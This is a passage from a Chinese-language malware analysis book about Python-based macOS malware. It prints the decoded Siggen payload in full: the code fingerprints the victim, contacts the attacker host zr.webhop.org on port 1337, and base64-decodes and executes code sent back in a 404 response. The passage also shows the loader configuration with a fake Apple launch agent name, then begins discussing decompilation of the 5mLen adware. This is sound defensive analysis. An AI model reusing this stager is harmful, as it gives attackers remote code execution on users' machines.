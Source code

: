 另一种至少部分用 Python 编写的 macOS 恶意软件是 Siggen。如前一部分所述，Siggen 包含一个 bash 脚本，用于解码大量 base64 编码的数据，并通过 Python 执行它。清单 4-11 显示了解码后的 Python 代码：

```
# -*- coding: utf-8 -*-
import urllib2
from base64 import b64encode, b64decode
import getpass
from uuid import getnode
from binascii import hexlify

def get_uid():
    return hexlify(getpass.getuser() + "-" + str(getnode()))

LaCSZMCY = "Q1dG4ZUz"
data = { 1
    "Cookie": "session=" + b64encode(get_uid()) + "-eyJ0eXBlIj...ifX0=", 2
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 
    (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36"
} 

try:
    request = urllib2.Request("http://zr.webhop.org:1337", headers=data) 
    urllib2.urlopen(request).read() 3
except urllib2.HTTPError as ex:
    if ex.code == 404:
      exec(b64decode(ex.read().split("DEBUG:\n")[1].replace("DEBUG-->", ""))) 4
    else:
      raise
```

清单 4-11：解码后的 Python 载荷（Siggen）

在导入了几个模块后，脚本定义了一个名为 `get_uid` 的函数。这个子程序根据受感染系统的用户和 MAC 地址生成一个唯一标识符。接着，脚本构建了一个字典，用于保存 HTTP 请求头，以便在随后的 HTTP 请求中使用 1。内嵌的、硬编码的 base64 编码数据 `-eyJ0eXBlIj...ifX0=` 2 解码成一个 JSON 字典（清单 4-12）。

```
'{"type": 0, "payload_options": {"host": "zr.webhop.org", "port": 1337}, "loader_options": {"payload_filename": "yhxJtOS", "launch_agent_name": "com.apple.HEYgiNb", "loader_name": "launch_daemon", "program_directory": "~/Library/Containers/.QsxXamIy"}}'
```

清单 4-12：解码后的配置数据（Siggen）

脚本随后通过 `urllib2.urlopen` 方法 3 向攻击者的服务器 *http://zr.webhop.org* 发送请求，端口为 `1337`。它期待服务器返回一个 404 HTTP 状态码，通常意味着请求的资源未找到。然而，检查脚本后可以发现，恶意软件期望该响应包含 base64 编码的数据，它会提取并解码这些数据，然后执行 4。

不幸的是，在我 2019 年初进行分析时，*http://zr.webhop.org* 服务器已经不再提供该最终阶段的有效载荷。然而，知名的 Mac 安全研究员 Phil Stokes 提到该脚本“利用了一个公共的后期利用工具包，*Evil.OSX*，来安装后门。”^(7) 当然，攻击者随时可以替换远程的 Python 有效载荷，以在被感染的系统上执行任何他们想要的操作！

最后一个例子，让我们回到名为 *5mLen* 的广告软件文件。在本章前面我们已经讨论过，当时我们使用 `file` 工具确定它是一个编译后的 Python 代码。由于 Python 是一种解释型语言，用这种语言编写的程序通常会以可读的脚本形式分发。然而，这些脚本也可以被编译并以 Python 字节码的二进制文件格式分发。为了静态分析该文件，你必须首先将 Python 字节码反编译回原始 Python 代码的表示。一个在线资源，比如 Decompiler，可以帮助你完成这一反编译工作。^(8) 另一种选择是安装 uncompyle6 Python 包来本地反编译 Python 字节码。^(9)

列表 4-13 显示了反编译后的 Python 代码：
